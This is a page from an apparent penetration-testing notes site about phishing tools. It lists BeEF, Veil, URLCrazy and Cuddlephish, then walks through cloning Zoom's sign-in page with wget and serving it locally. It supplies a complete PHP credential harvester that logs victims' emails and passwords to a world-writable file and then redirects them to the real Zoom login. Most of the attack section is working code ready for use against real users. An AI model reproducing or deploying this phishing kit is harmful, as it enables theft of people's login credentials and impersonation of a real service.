

repository: amandaguglieri/hackinglife · page: cloning-a-site/index.html · generator: mkdocs

---
title:  Tools for cloning a site
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - web pentesting
  - phishing
  - tools
---
# Tools for cloning a site

[BeEF](beef.md).

[Veil](veil.md)

[URLCrazy](https://github.com/urbanadventurer/urlcrazy): URLCrazy is an OSINT tool to generate and test domain typos or variations to detect or perform typo squatting, URL hijacking, phishing, and corporate espionage.


## Creating a phishing site

### Cuddlephish

https://github.com/fkasler/cuddlephish

Weaponized multi-user browser-in-the-middle (BitM) for penetration testers. This attack can be used to bypass multi-factor authentication on many high-value web applications. It even works for applications that do not use session tokens, and therefore would not be exploitable using traditional token stealing attacks. This is a social engineering tool and does not exploit any technical flaws in the target service.

Cloning Zoom site:

```bash
# Create directory
mkdir ZoomSignin
cd ZoomSignin

# Clon the site with wget
wget -E -k -K -p -e robots=off -H -Dzoom.us -nd "https://zoom.us/signin#/login"
# -E to change the file extension to match the MIME type of the downloaded file
# convert all the links in the document to point to local alternatives with -k 
# -K to save the original file with a .orig extension.
# -p to download all the files necessary for viewing the specific page
# -e robots=off will ignore robots.txt directives which might otherwise hinder our download
# -H download all files from external hosts,  
# limited to files on the zoom.us domain with -Dzoom.us
# -nd save all files in a flat directory structure in our current working directory.

# Serve the site locally 
python -m http.server 80

# Visit the site http://localhost/signin.html
# This presents an OWASP CSRF Guard error alert box. This is somewhat expected since we tried to load externally-hosted JavaScript. We'll note this for now and click through the alert.
```

Now we need to modify the submit POST that actionates our malicious code. Our malicious code could be this custom_loging php file (do not forget to add 777 rights to this file and the credentials.txt one):

```php
<?php
// Check if the form fields 'email' and 'password' are set
if (isset($_POST['email']) && isset($_POST['password'])) {
    // Get the email and password from the form
    $email = $_POST['email'];
    $password = $_POST['password'];

    // Define the file path to store the credentials
    $file = 'credentials.txt';

    // Prepare the data to write (append mode)
    $data = "Email: " . $email . "\nPassword: " . $password . "\n\n";

    // Use file_put_contents to write to the file and create it if it doesn’t exist
    if (file_put_contents($file, $data, FILE_APPEND | LOCK_EX) === false) {
        echo "Error writing to file.";
        exit();
    }

    // Redirect the user to the official Zoom sign in page
    header('Location: https://zoom.us/signin#/login');
    exit();
} else {
    // If the form is not submitted correctly, output an error message
    echo "Please ensure both email and password are provided.";
}
?>
```
